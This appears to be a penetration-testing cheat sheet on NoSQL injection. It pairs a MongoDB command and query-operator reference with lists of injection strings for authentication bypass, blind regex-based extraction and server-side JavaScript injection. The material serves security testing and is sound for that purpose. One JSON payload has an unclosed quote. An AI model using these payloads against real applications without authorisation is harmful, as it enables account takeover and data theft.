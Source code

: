 ## MongoDB Usage

- Connect to MongoDB: `mongosh mongodb://127.0.0.1:27017`
- List databases: `show databases`
- List collections: `show collections`
- Insert data: `db.collection.insertOne({...})`
- Insert lots of data: `db.apples.insertMany([{...},{...},...])`
- Selecting data: `db.collection.find({...})`
- Selecting one piece of data: `db.collection.findOne({...})`
- Update (one) document: `db.collection.updateOne({...}, {...})`
- Update multiple documents: `db.collection.updateMany({...}, {...})`
- Delete document(s): `db.apples.remove({...})`

#### Query Operators

|Type|Operator|Description|Example|
|---|---|---|---|
|Comparison|`$eq`|Matches values which are `equal to` a specified value|`type: {$eq: "Pink Lady"}`|
|Comparison|`$gt`|Matches values which are `greater than` a specified value|`price: {$gt: 0.30}`|
|Comparison|`$gte`|Matches values which are `greater than or equal to` a specified value|`price: {$gte: 0.50}`|
|Comparison|`$in`|Matches values which exist `in the specified array`|`type: {$in: ["Granny Smith", "Pink Lady"]}`|
|Comparison|`$lt`|Matches values which are `less than` a specified value|`price: {$lt: 0.60}`|
|Comparison|`$lte`|Matches values which are `less than or equal to` a specified value|`price: {$lte: 0.75}`|
|Comparison|`$nin`|Matches values which are `not in the specified array`|`type: {$nin: ["Golden Delicious", "Granny Smith"]}`|
|Logical|`$and`|Matches documents which `meet the conditions of both` specified queries|`$and: [{type: 'Granny Smith'}, {price: 0.65}]`|
|Logical|`$not`|Matches documents which `do not meet the conditions` of a specified query|`type: {$not: {$eq: "Granny Smith"}}`|
|Logical|`$nor`|Matches documents which `do not meet the conditions` of any of the specified queries|`$nor: [{type: 'Granny Smith'}, {price: 0.79}]`|
|Logical|`$or`|Matches documents which `meet the conditions of one` of the specified queries|`$or: [{type: 'Granny Smith'}, {price: 0.79}]`|
|Evaluation|`$mod`|Matches values which divided by a `specific divisor` have the `specified remainder`|`price: {$mod: [4, 0]}`|
|Evaluation|`$regex`|Matches values which `match a specified RegEx`|`type: {$regex: /^G.*/}`|
|Evaluation|`$where`|Matches documents which `satisfy a JavaScript expression`|`$where: 'this.type.length === 9'`|

## Authentication Bypass / Data Exfiltration Payloads:

#### URL-Encoded

- `param[$ne]=x`
- `param[$gt]=`
- `param[$gte]=`
- `param[$lt]=~`
- `param[$lte]=~`
- `param[$regex]=.*`

#### JSON

- `{param: {$ne: 'x'}}`
- `{param: {$gt: ''}}`
- `{param: {$gte: ''}}`
- `{param: {$lt: '~'}}`
- `{param: {$lte: '~'}}`
- `{param: {$regex: '.*'}}`
- `{param: {$nin: []}}`

## Blind NoSQLi Payloads:

#### URL-Encoded

- `param[$regex]=^XYZ.*$`

#### JSON

- `{param: {$regex: '^XYZ.*$}}`

### Server-Side JavaScript Injection Payloads:

- `' || true || ''=='`
- `" || true || ""=="`

---

This cheat sheet contains a (non-comprehensive) list of payloads you may use when testing an application for NoSQL injection vulnerabilities. The most important qualities for finding vulnerabilities are creativity and the ability to adapt, so it is possible that these payloads will not work in your specific scenario, but something else does.

Some other resources you may want to refer to may be:

- [PayloadAllTheThings - NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
- [HackTricks - NoSQL Injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
- [NullSweep - NoSQL Injection Cheatsheet](https://nullsweep.com/nosql-injection-cheatsheet/)